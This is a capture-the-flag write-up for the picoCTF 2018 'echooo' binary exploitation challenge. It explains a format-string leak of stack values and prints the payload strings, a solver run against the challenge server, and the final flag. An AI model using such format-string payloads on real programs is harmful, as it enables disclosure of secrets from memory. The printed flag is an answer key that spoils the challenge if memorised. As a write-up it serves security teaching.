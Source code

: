# echooo 
Points: 300

## Category
Binary Exploitation

## Question
>This program prints any input you give it. Can you [leak](files/echo) the flag? Connect with `nc 2018shell1.picoctf.com 46960`. [Source](files/echo.c). 

### Hint
>If only the program used puts...

## Solution
A simple format string exploit.

Looking at the source code, we see that the flag is stored in the stack. All we have to do is to leak values from the stack to get the flag.

Doing some testing locally, we see that the flag starts at _%29$x_. This format simply takes the 29th argument and print it out as hex.

Since the buffer only accepts 64 bytes, we have to stagger the inputs.

```
$ python solve.py 
[+] Opening connection to 2018shell1.picoctf.com on port 46960: Done
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %27$x %28$x %29$x %30$x %31$x %32$x %33$x %34$x %35$x %36$x
[*] Flag Part 1: 6f636970 7b465443 6d526f66 735f7434 6e695274 615f7347 445f6552 65476e61 73753072 6237615f
> %37$x %38$x %39$x %40$x %41$x
[*] Flag Part 2: 32613463 a7d64 80487ab 1 ffe42d84
[+] Flag: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
[*] Closed connection to 2018shell1.picoctf.com port 46960
```

Working solution [solve.py](solution/solve.py)

### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`
